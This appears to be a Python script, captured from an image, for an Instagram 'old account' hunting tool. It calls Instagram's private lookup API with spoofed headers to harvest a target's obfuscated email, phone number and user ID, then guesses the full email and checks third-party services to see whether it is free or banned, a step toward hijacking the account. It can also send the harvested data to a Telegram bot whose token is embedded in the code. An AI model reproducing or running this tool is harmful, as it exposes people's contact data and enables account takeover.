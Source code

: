 import requests,os,random
import webbrowser
webbrowser.open("https://instagram.com/DOOM.OLD?utm_medium=copy_link")
from time import sleep
user_agent = [
    "Instagram 99.4.0 S3od_al3nzi (Dmaral3noOoz)",'Instagram 155.0.0.37.107 Android (28/9; 320dpi; 720x1468; samsung; SM-A102U; a10e; exynos7885; en_US; 239490550)',
    'Instagram 64.0.0.12.96 (iPhone8,1; iOS 12_0_1; pt_BR; pt-BR; scale=2.00; gamut=normal; 750x1334; 124976489)',
    'Instagram 8.4.0 (iPhone7,2; iPhone OS 9_3_2; nb_NO; nb-NO; scale=2.00; 750x1334',
    'Instagram 93.1.0.19.102 Android (21/5.0.2; 240dpi; 540x960; samsung; SM-G530H; fortuna3g; qcom; ar_AE; 154400379)'
]
X=int(input("[?] With telegram ? \n[!] 0 = NO | 1 = YES\n+> "))
if X == 1 :
	try:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAEyKd5RxKtpa6R1cLU-OWWyLQOIGddJWkI/sendMessage?chat_id={ic}&text=HI\nIf you have a problem tell me\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	except:
		print("[!] Try with VPN ")
		input("")
		exit()
else:
	pass
os.system('cls' if os.name == 'nt' else 'clear')#DOOM
print("""\033[0;97mINSTA : DOOM.OLD\n\033[1;34m𝐈𝐟 𝐲𝐨𝐮 𝐡𝐚𝐯𝐞 𝐚 𝐩𝐫𝐨𝐛𝐥𝐞𝐦, 𝐭𝐞𝐥𝐥 𝐦𝐞 𝐨𝐧 𝐈𝐧𝐬𝐭𝐚𝐠𝐫𝐚𝐦""")
def ops ():
	print('\n'+'\033[1;30m='*20+'\n')
	user=input("\033[1;30m[\033[0;37m?\033[1;30m] username or url user :\033[0;37m")
	try:
		user=user.split("/")[3]
		user=user.split("?")[0] or user.split("/")[0]
	except:
		pass
	url = "https://i.instagram.com:443/api/v1/users/lookup/"
	cookies = {"mid": "XOSINgABAAG1IDmaral3noOozrK0rrNSbPuSbzHq"}
	x=random.choice(user_agent)
	headers = {"Connection": "close", "X-IG-Connection-Type": "WIFI", "X-IG-Capabilities": "3R4=",
           "Accept-Language": "ar-AE",
           "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
           "User-Agent": x,
           "Accept-Encoding": "gzip, deflate"}
	data = {"signed_body": "35a2d547d3b6ff400f713948cdffe0b789a903f86117eb6e2f3e573079b2f038.{\"q\":\"%s\"}" % user }
	try:
		re = requests.post(url, headers=headers, cookies=cookies, data=data)
		if re.status_code == 200:
			pass
		elif re.status_code == 409 or 404:
			print("\033[1;31m[!] username bad !")
			print('\n'+'\033[1;30m='*20+'\n')
			ops()
		elif re.status_code == 429:
			print("\033[1;31m[!] wait 5m")
			print('\n'+'\033[1;30m='*20+'\n')
			sleep(60*5)
			ops()
		info = re.json()
	except:
		print("\033[1;31m[!] there is no Internet")
		print('\n'+'\033[1;30m='*20+'\n')
		ops()
	try:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;32m "+info['obfuscated_email'])
		m1=(user[0])
		m2=(user[-1])
		s=info["obfuscated_email"].split("@")[0]
		m3=(s[0])
		m4=(s[-1])
		if m1 == m3 and m2 == m4:
			v=0
			if '@yahoo.com' in info["obfuscated_email"]:
				s1="@yahoo.com"
			elif '@gmail.com' in info["obfuscated_email"]:
				s1="@gmail.com"
			elif "@a**.com" in info["obfuscated_email"]:
				s1="@aol.com"
			elif "@hotmail.com" in info["obfuscated_email"]:
				s1="@hotmail.com"
			elif "@o*****.sa" in info["obfuscated_email"]:
				s1="outlook.sa"
			elif "@g*****.com" in info["obfuscated_email"]:
				s1="@googlemail.com"
			elif '@m***.com' in info["obfuscated_email"]:
				s1="@mail.com"
			elif '@f*****.fm' in info["obfuscated_email"]:
				s1="@fastmail.fm"
			else:
				s1="@"+info["obfuscated_email"].split("@")[1]
			if "*" in s1:
				print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
				ops()
			else:
				eml=user+s1
				p=requests.get("http://tweakpy-filza.ueuo.com/api.php?email="+eml).text
				if "False" in p:
					if v == 1:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+user+"@googlemail.com").text
					else:
							rm=requests.get("https://jftv.pythonanywhere.com/IGMail/"+eml).text
					if "Linked Or Ban" in rm:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;32mYES")
						print("\033[1;30m[\033[0;37m$\033[1;30m] Email Available :\033[1;32m "+eml)
					else:
						print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
						ops()
				else:
					print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
					ops()
		else:
			print("\033[1;30m[\033[0;37m$\033[1;30m] Available : \033[1;31mNO")
			ops()
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Email :\033[1;31m False")
		ops()
	try:
		po=info['obfuscated_phone']
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number :\033[1;32m "+ po)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] Phone number : \033[1;31mFalse")
		po="False"
	try:
		iid=info['user_id']
		print(f"\033[1;30m[\033[0;37m$\033[1;30m] user id :\033[1;32m {iid}")
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] user id : \033[1;31mFalse")
	try:
		uid=info['user_id']
		x=requests.get(f"https://o7aa.pythonanywhere.com/?id={uid}").text
		x1=str(x).split('"data": ')[1]
		x2=str(x1).split(', "telegram":')[0]
		print("\033[1;30m[\033[0;37m$\033[1;30m] data :\033[1;32m "+x2)
	except:
		print("\033[1;30m[\033[0;37m$\033[1;30m] data : \033[1;31mFalse ")
	if X == 1:
		tel=requests.post(f"https://api.telegram.org/bot2025157803:AAEyKd5RxKtpa6R1cLU-OWWyLQOIGddJWkI/sendMessage?chat_id={ic}&text=NEW OLD ACC\nUser : {user}\nEmail : {eml} Available or ban\nPhone : {po}\nData : {x2}\nINSTA : @M0B.STORE | TELE : @ZXXXXZV")
	else:
		pass
	print('\n'+'\033[1;30m='*20+'\n')
	ops()
ops()
